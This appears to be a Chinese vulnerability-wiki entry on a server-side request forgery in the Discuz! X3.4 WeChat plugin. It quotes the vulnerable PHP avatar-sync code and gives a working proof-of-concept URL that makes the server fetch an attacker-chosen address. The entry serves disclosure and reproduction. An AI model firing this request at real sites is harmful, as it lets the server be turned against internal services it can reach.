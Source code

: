 Discuz! X3.4 Weixin Plugin ssrf
===============================

一、漏洞简介
------------

二、漏洞影响
------------

Discuz! X3.4

三、复现过程
------------

`source/plugin/wechat/wechat.class.php` `WeChat`类`syncAvatar`方法：

        static public function syncAvatar($uid, $avatar) {

            if(!$uid || !$avatar) {
                return false;
            }

            if(!$content = dfsockopen($avatar)) {
                return false;
            }

            $tmpFile = DISCUZ_ROOT.'./data/avatar/'.TIMESTAMP.random(6);
            file_put_contents($tmpFile, $content);

            if(!is_file($tmpFile)) {
                return false;
            }

            $result = uploadUcAvatar::upload($uid, $tmpFile);
            unlink($tmpFile);

            C::t('common_member')->update($uid, array('avatarstatus'=>'1'));

            return $result;
        }

`source/plugin/wechat/wechat.inc.php`
中调用了`WeChat::syncAvatar`，直接用`$_GET['avatar']`作为参数传进去：

    ......

    elseif(($ac == 'register' && submitcheck('submit') || $ac == 'wxregister') && $_G['wechat']['setting']['wechat_allowregister']) {

            ......

            $uid = WeChat::register($_GET['username'], $ac == 'wxregister');

            if($uid && $_GET['avatar']) {
                WeChat::syncAvatar($uid, $_GET['avatar']);
            }

    }

不过因为这里用到了微信登录的插件，所以要利用的话需要目标站开启微信登录：

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4WeixinPluginssrf/media/rId24.png)

这里 SSRF 的构造很简单，直接在`avatar`参数构造 url
即可（只是注意`wxopenid`参数每次请求都要足够随机保证没有重复，如果重复的话代码是无法走到发起请求的逻辑的）：

### poc

    http://target/plugin.php?id=wechat:wechat&ac=wxregister&username=vov&avatar=http://localhost:9090/dz-weixin-plugin-ssrf&wxopenid=dont_be_evil

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4WeixinPluginssrf/media/rId26.png)
